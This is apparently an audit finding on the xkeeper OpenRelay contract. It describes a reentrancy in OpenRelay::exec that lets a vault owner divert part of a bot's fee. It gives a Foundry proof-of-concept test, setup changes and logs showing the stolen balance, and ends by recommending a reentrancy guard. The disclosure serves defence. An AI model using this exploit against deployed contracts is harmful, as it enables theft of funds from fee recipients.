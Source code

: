 Hot Juniper Fly

high

# Malicious User can steal fee from bot `OpenRelay:exec` function

## Summary
The exec function in `OpenRelay` contract deduct the fee from gas left and send it to arbitrary `feeRecipient`, However it is possible from malicious user to craft the input data in that the portion of fee can be steal from bot.

## Vulnerability Detail
The `Openrelay::exec` function is vulnerable to re-entrance. As it can be seen from the code that multiple transaction are submitted to openrelay contract and the fee is deducted from the gasLeft at the end of all transaction get executed. The malicious owner of vault can take advantage of it and craft a transaction to call `OpenRelay:exec` from `automationVault` contract . All its need is to approve the  vault to call exec function.
## POC

```solidity
function test_hackFeeexecuteBondAndGetPayment() public {
        uint16 _howHard = 100;
        assertEq(bot.balance, 0);
        assertEq(hacker.balance, 0);

        IAutomationVault.ExecData[]
            memory _execDataHack = new IAutomationVault.ExecData[](1);
        _execDataHack[0] = IAutomationVault.ExecData(
            address(basicJob),
            abi.encodeWithSelector(basicJob.workHard.selector, _howHard)
        );

        IAutomationVault.ExecData[]
            memory _execData = new IAutomationVault.ExecData[](3);
        _execData[1] = IAutomationVault.ExecData(
            address(basicJob),
            abi.encodeWithSelector(basicJob.workHard.selector, _howHard)
        );
        _execData[2] = IAutomationVault.ExecData(
            address(basicJob),
            abi.encodeWithSelector(basicJob.workHard.selector, _howHard)
        );
        _execData[0] = IAutomationVault.ExecData(
            address(openRelay),
            abi.encodeWithSelector(
                openRelay.exec.selector,
                address(automationVault),
                _execDataHack,
                address(hacker)
            )
        );

        console.log("hackBal Before :", hacker.balance);
        console.log("BotBal Before:", bot.balance);

        // Calculate the exec gas cost
        uint256 _gasBeforeExec = gasleft();
        openRelay.exec(automationVault, _execData, bot);
        uint256 _gasAfterExec = gasleft();
        console.log("hackBal After:", hacker.balance);
        console.log("BotBal after:", bot.balance);

        // Calculate tx cost
        uint256 _txCost = (_gasBeforeExec - _gasAfterExec) * block.basefee;

        // Calculate payment
        uint256 _payment = (_txCost * openRelay.GAS_MULTIPLIER()) /
            openRelay.BASE();

            }
```
---
Add this test case to `integration/OpenRelay.t.sol` and run with command : `forge test --mt test_hackFeeexecuteBondAndGetPayment  -vvv`. 
---

Changes added to current test file:
```diff
address[] memory _bots = new address[](2);
           _bots[0] = bot;
+        _bots[2] = address(automationVault);

+        bytes4[] memory _jobSelectors1 = new bytes4[](1);
+        _jobSelectors1[0] = openRelay.exec.selector;

+     IAutomationVault.JobData[]
+            memory _jobsData = new IAutomationVault.JobData[](2);

+        _jobsData[1] = IAutomationVault.JobData(
+            address(openRelay),
+            _jobSelectors1
+        );
```
---

```solidity
Logs:
  hackBal Before : 0
  BotBal Before: 0
  hackBal After: 60831122621485204
  BotBal after: 179780206495585022

```
**Note: the Owner of vault is only trusted on function of is vault not on rest of the contracts.

## Impact
The portion of Fee will be lost.

## Code Snippet
[https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/OpenRelay.sol#L21-L43](https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/OpenRelay.sol#L21-L43)

## Tool used

Manual Review

## Recommendation
Add Reentrancy guard to `OpenRelay:exec` function.

